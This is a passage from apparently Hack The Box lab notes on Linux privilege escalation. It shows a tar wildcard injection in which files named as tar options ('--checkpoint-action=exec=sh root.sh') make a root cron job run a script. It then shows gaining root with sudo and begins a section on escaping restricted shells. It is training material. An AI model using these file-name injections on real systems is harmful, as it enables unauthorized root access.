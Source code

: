 2. Create files named as `tar` options:

```bash
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

3. Verify the created files:

```bash
ls -la
```

Example output:

```
-rw-rw-r-- 1 htb-student htb-student    1 --checkpoint=1
-rw-rw-r-- 1 htb-student htb-student    1 --checkpoint-action=exec=sh root.sh
-rw-rw-r-- 1 htb-student htb-student   60 root.sh
```

4. Wait for the cron job to execute.

### Post-Exploitation

Check sudo privileges:

```bash
sudo -l
```

Output:

```
(root) NOPASSWD: ALL
```

Escalate to root:

```bash
sudo su
```

---

# Escaping Restricted Shells

A **restricted shell** is a type of shell that limits the user's ability to execute commands. Users are only allowed to run specific commands or access certain directories. This is often used in enterprise networks to prevent accidental or intentional system damage.  

Common restricted shells include:  
- **rbash** (Restricted Bourne Shell)  
- **rksh** (Restricted Korn Shell)  
- **rzsh** (Restricted Z Shell)  

## Types of Restricted Shells
